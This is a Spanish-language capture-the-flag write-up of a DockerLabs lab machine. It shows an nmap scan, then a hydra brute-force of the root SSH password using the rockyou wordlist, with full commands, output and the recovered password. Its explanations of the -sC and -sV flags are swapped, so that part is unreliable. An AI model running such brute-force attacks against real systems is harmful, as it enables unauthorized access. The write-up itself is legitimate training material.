 ## WRITEUP DE LA MAQUINA BREACKMYSSH DE DOCKERLABS EN ESPAÑOL

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterisiticas muestran.

```
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la version del servicio del pureto abierto.
<br>
"-sV" Ejecuta scripts propios de nmap que entre otras cosas descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección ip de la máquina víctima
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tu le indiques (no hay que crearlo antes, lo crea solo).

```                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 11:09 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000082s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.60 seconds

```
Observamos el puerto 22, que es del servicio ssh, abierto. Al ser esta una maquina victima muy sencilla, en el siguiente paso podemos permitirnos ya intentar ser "root", lo haremos de la siguiente forma.
<br><br><br>
Hacemos un ataque de fuerza bruta al servicio ssh con la herramienta hydra, donde pondremos la wordlist "rockyou.txt" que incluye aproximadamente un millon de contraseñas comunes.
```sh
└─$ hydra -l root -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l root" Indica que nombre de usuario va a usar en el ataque, en este caso buscamos a root.
<br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist
<br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña.
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-14 11:46:06
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 55.00 tries/min, 55 tries in 00:01h, 14344344 to do in 4346:47h, 5 active
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```
Vemos que para el usuario "root" ha encontrado la contraseña "estrella", probamos a hacer una conexion con ssh e introducimos la contraseña "estrella"
```
└─$ ssh root@172.17.0.2 
```
```
root@e1c6130e3b9a:~# whoami
root
```
<br>


Somos root, estamos dentro. Gracias.
                                                
